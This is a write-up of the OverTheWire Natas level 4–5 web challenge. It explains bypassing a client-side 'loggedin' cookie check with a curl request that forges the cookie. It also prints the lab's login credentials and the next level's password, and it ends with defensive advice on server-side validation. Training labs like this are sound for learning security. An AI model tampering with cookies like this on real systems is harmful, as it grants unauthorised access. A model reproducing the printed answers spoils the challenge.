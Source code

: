 # 🕵️ Natas - Level 04–05 (🇺🇸 English)  
*Date:* 2025-05-24  
*Difficulty:* Easy  
*Category:* Web

---

## 🎯 OBJECTIVE

Access `http://natas5.natas.labs.overthewire.org` and retrieve the password to advance to level 6.

---

## 🔎 ANALYSIS

- After logging in with the correct credentials, the website shows the following message:
**Access denied. You are not logged in.**
- The page source contains no useful information, so we inspect the HTTP request via the browser's DevTools.
- Under the **Cookies** section, a flag draws our attention: `loggedin=0`. This indicates that the session is not authenticated.
- What happens if we change that value?

---

## 🧱 STEPS

1. We noticed the `loggedin` cookie is set to `0`, meaning the session is not authenticated.
2. We decide to change this value manually to `1`.
3. Using the terminal, we craft a request with a modified cookie header:

```
curl http://natas5.natas.labs.overthewire.org/ \  
-u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK \  
-H "Cookie: _ga=GA1.1.325147876.1747444879; _ga_RD0K2239G0=GS2.1.s1748038204\$o13\$g1\$t1748038952\$j0\$l0\$h0;  
loggedin=1"  
```
4. Upon execution, the response is: `Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned`

---

## 🔑 PASSWORD FOUND

```
0RoJwHdSKWFTYR5WuiAewauSuNaBXned
```

---

## ✅ CONCLUSION

This level illustrates how improper cookie-based access control can be easily bypassed by modifying client-side flags.
Security decisions should never rely on modifiable client-side values like cookies without proper server-side validation.


---

## 🧪 COMMANDS USED

`curl:` Command-line tool for making HTTP requests.  
`-u:` Provides username and password in user:password format.  
`-H:` Adds a custom header — in this case, a manipulated Cookie.  

---

## 🧠 NOTES

Using cookies like loggedin=1 for access control is extremely insecure. Any attacker can modify this value manually using curl, browser dev tools, or tools like Burp Suite.
In real-world applications, authentication and access control must be handled on the server side, using signed tokens or sessions that cannot be forged on the client.

---


<p align="center">
  <a href="../Natas03-04/Readme-US.md">⬅️ Previous/a> • 
  <a href="../Natas05-06/Readme-US.md"> Next ➡️/a>
</p>
